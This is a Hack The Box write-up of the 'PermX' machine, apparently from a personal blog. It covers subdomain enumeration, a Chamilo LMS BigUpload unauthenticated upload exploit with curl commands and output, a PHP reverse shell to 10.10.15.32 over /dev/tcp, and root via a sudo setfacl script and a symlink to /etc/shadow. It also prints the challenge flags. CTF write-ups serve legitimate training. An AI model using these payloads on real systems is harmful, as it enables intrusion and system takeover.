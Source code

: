 ```yaml
---
layout: post
title: "PermX"
description: "PermX is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
![Pasted image 20240715112814.png](/images/Pasted image 20240715112814.png){: .normal }


### Enumerate HTTP (Port 80)
Perform directory busting using Gobuster.
![Pasted image 20240715112809.png](/images/Pasted image 20240715112809.png){: .normal }

Ffuf subdomain enumeration result.
![Pasted image 20240715112801.png](/images/Pasted image 20240715112801.png){: .normal }


### Enumerating Subdomain (lms.permx.htb)
Main login page.
![Pasted image 20240715112756.png](/images/Pasted image 20240715112756.png){: .normal }

Found robots.txt.
![Pasted image 20240715112751.png](/images/Pasted image 20240715112751.png){: .normal }

In the /documentation/ subdirectory we discover that the version running is 1.11.
![Pasted image 20240715112743.png](/images/Pasted image 20240715112743.png){: .normal width="500" }

Found CVE: [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

Verify the existence of BigUpload in the application:
![Pasted image 20240715112736.png](/images/Pasted image 20240715112736.png){: .normal width="500" }

Gain RCE:
```bash
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' '<http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported>'
The file has successfully been uploaded.
$ curl '<http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php>'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell as www-data:
```bash
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.15.32/443 0>&1'"); ?>
```


### Lateral movement
Found DB credentials.
![Pasted image 20240715112730.png](/images/Pasted image 20240715112730.png){: .normal }

Use the DB credentials to SSH as the mtz user (found in home directory).
![Pasted image 20240715112724.png](/images/Pasted image 20240715112724.png){: .normal }

User.txt: `863fa15050c164ae334f008b2b4f70e8`
![Pasted image 20240715112720.png](/images/Pasted image 20240715112720.png){: .normal width="500" }



## Privilege Escalation
Sudo -l output.
![Pasted image 20240715112712.png](/images/Pasted image 20240715112712.png){: .normal }

The script in question allows us to modify permissions on files: [Link](https://linux.die.net/man/1/setfacl).
![Pasted image 20240715112702.png](/images/Pasted image 20240715112702.png){: .normal width="600" }

However the content must be in the mtz’s home directory, to bypass this we can create a symlink:
```bash
ln -s / symlink
```

We can now invoke the script and change the permissions on the shadow file for the root user, this way we can switch to the root user using our own specified password.
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/symlink/etc/shadow
```

Generate the password (root):
![Pasted image 20240715112655.png](/images/Pasted image 20240715112655.png){: .normal }

Update the shadow file with the hash and change to the root user using the root password:
![Pasted image 20240715112650.png](/images/Pasted image 20240715112650.png){: .normal width="500" }

Root.txt: `9644db72db3b3c64a3b580ba2e47b6ca`
![Pasted image 20240715112646.png](/images/Pasted image 20240715112646.png){: .normal width="500" }


## PWNED!!!
![Pasted image 20240715112641.png](/images/Pasted image 20240715112641.png){: .normal }
